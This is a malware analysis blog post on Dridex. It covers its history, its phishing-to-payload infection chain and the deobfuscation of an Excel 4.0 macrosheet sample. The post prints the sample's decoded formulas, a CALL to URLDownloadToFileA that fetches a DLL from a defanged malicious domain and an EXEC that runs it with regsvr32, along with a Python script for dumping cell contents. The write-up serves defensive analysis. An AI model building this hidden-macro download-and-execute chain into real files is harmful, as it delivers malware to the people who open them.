 ```yaml
---
layout: post
title: Dridex crimeware/malware
---
```


| Malware | APT |
|-------|--------|
| [Dridex](https://malpedia.caad.fkie.fraunhofer.de/details/win.dridex) | [Indrik Spider](https://malpedia.caad.fkie.fraunhofer.de/actor/indrik_spider) , Evil Corp|

## Dridex
An evasive, information-stealing malware variant; its goal is to acquire as many credentials as possible and return them via an encrypted tunnel to a Command-and-Control (C&C) server. These C&C servers are numerous and scattered all over the Internet, if the malware cannot reach one server it will try another. For this reason, network-based measures such as blocking the C&C IPs is effective only in the short-term. -- OxCERT


### History 
[Treasury Sanctions Evil Corp, the Russia-Based Cybercriminal Group Behind Dridex Malware](https://home.treasury.gov/news/press-releases/sm845)
```As of 2015, Yakubets maintained control of the Dridex malware```

 * First dridex apeard on the chart was back in 2014 June
 * moving on it started creating its army of botnets(mid 2014- mid 2015)
 * botnet was taken down by USA in late 2015
 * it resurfaced again in 2016 and assembelled more that 30 botnets.
 * By the mid of july 2017 dridex started ransomware infection, likes of [Bitpaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.friedex), [DoppelPaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.doppelpaymer), [WastedLocker](https://malpedia.caad.fkie.fraunhofer.de/details/win.wastedlocker)

funfact: botnets are named after there botnet IDs like 10111, 40200, 40300 etc


### Mechanism

Malspam(email)--> Maldoc(excel/word)+macro --> VBA macro --> powershell script --> payload download --> payload execution

Mostly the Maldoc are excel documents and the urls are obfuscated as cell contents. then VBA function de-obfuscate the sheet and downlaod the payload either using powershell or Windows API, moslty powershell.

## Sample used : f06910daadc7c66c8e9064d0719ed6727d69c1f04ab13566cadbb6e7a9f52a7e maldoc: thanks to abuse.ch

## Initial Access :
###    Phishing:
        Spearphish Attachment : compressed macros docs, Pdfs, Js, Jar, etc
        Spearphish Link : link to above compressed files (Mostly Compromised and public Cloud storage are used)


## Execution:
###    Command and Scripting Interpreter:
        Macro
        Powershell
        
### Use olevba3 to extract the macrosheet or use openpyxl to get the cell contents.

This sample is using XML macrosheets which is still(for 30 years if i am not wrong) there to support backward compatibility.Now VBA macros are used instead of macrosheets.
Execution is from left to right AND top to bottom cell in xls macrosheet
All sheets are hidden, 

Sheets are heaviliy ofuscated.

Code to get cell contents:

```import openpyxl
book = openpyxl.load_workbook('binary.xlsm')
for w in book.worksheets:
   s = book.get_sheet_by_name(w.title)
   for r in s.rows:
       for c in r:
         if c.value != None:
           print c,c.value
 ```
 
FORMULA.FILL : to put data or formula to the cell.
        `FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)`
Workbook.hide : it will hide the sheets 
        `WORKBOOK.HIDE("Doc1",1)`
SET.VALUE: to set value of cell
        `SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43)`
CALL : In Macrosheet you can call functions from the cell :)
Even you can call the DLL fucntion using CALL function. (urlmon.urldownloadtofile())
        `CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)`
EXEC : it will execute the code provided as argument.
        `EXEC(AM34&AO15)`
& : it will just concat the strings.


Demo sequence:

        decode the call urls
        decode the call function
        run the downlaoded dll.
```
        <Cell u'Doc1'.AO20> =EXEC(**AM34**&**AO15**) = **regsvr32 -s ..\ghnrope**
        AM34 = SET.VALUE(AM34,AO73)
            AO73 = <Cell u'Doc1'.AO73> =**"regsvr32 -s "**    
        <Cell u'Doc1'.AO15> =**"..\ghnrope"**
        CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)
        AM19 = SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43) = URLMo
                <Cell u'Doc1'.AV39> =CHAR(85)
                <Cell u'Doc1'.AV40> R
                <Cell u'Doc1'.AV41> L
                <Cell u'Doc1'.AV42> M
                <Cell u'Doc1'.AV43> o
       AM20=SET.VALUE(AM20,'Doc2'!AQ74&'Doc2'!AQ75&'Doc2'!AQ76&'Doc2'!AQ77&'Doc2'!AQ78&'Doc2'!AQ79&'Doc2'!AQ80&'Doc2'!AQ81&'Doc2'!AQ82&'Doc2'!AQ83&'Doc2'!AQ84&'Doc2'!AQ85&'Doc2'!AQ86&'Doc2'!AQ87&'Doc2'!AQ88&'Doc2'!AQ89&'Doc2'!AQ90)
       Similarl as above : URLDownloadToFile
      AM30 =  SET.VALUE(AM30,'Doc2'!AR74&'Doc2'!AR75&'Doc2'!AR76&'Doc2'!AR77&'Doc2'!AR78&'Doc2'!AR79)
        AM30= JJCCBB
      AR84 = 0
      AM23 =FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)
        http[:]//runolfsson-jayde07s.ru.com/ind[.]html
        AO15 = ..\ghnrope`
   ```
   
   CALL("URLMo"&"n","URLDownloadToFile"&"A",JJCCBB,0,"http[:]//runolfsson-jayde07s.ru.com/ind[.]html","..\ghnrope"&".dll")
   
more reading https://superuser.com/questions/1253212/what-is-macro-worksheet-in-excel 
